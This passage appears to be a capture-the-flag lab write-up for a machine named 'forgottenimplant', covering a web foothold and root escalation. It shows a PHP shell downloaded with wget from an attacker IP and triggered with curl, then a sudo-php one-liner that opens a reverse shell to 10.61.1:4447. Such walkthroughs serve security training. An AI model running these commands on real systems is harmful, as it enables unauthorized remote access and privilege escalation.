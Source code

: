 Lets create a file and try to call it through `curl` as a quick test to prove that the folder is accessible:

```console
ada@forgottenimplant:/var/www/phpmyadmin$ echo "hello" > tmp/hi.html

ada@forgottenimplant:/var/www/phpmyadmin$ curl 127.0.0.1/tmp/hi.html

hello
```

Looks good. Let’s start a new listener, upload a PHP shell and trigger it with `curl`:

```console
ada@forgottenimplant:/var/www/phpmyadmin/tmp$ wget 10.61.1/shell.php

--2023-08-02 22:32:12--  http://10.61.1/shell.php
Connecting to 10.61.1:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5493 (5.4K) [application/octet-stream]
Saving to: ‘shell.php’

shell.php           100%[===================>]   5.36K  --.-KB/s    in 0.001s  

2023-08-02 22:32:12 (4.64 MB/s) - ‘shell.php’ saved [5493/5493]

ada@forgottenimplant:/var/www/phpmyadmin/tmp$ curl 127.0.0.1/tmp/shell.php
```
{: .nolineno }

With the above we receive a connection back to our new listener as www-data.

## Become root

A quick enumeration proves that our migration to www-data was worthwhile, this account has full `sudo` permissions with no password needed. 

```console
$ sudo -l
Matching Defaults entries for www-data on forgottenimplant:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on forgottenimplant:
    (root) NOPASSWD: /usr/bin/php
```

To leverage this, we’ll start one more listener on an empty port, then make a call back via PHP with `sudo` : 

```console
www-data@forgottenimplant:/$ sudo php -r '$sock=fsockopen("10.61.1",4447);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Finally we see that beautiful hashtag prompt!
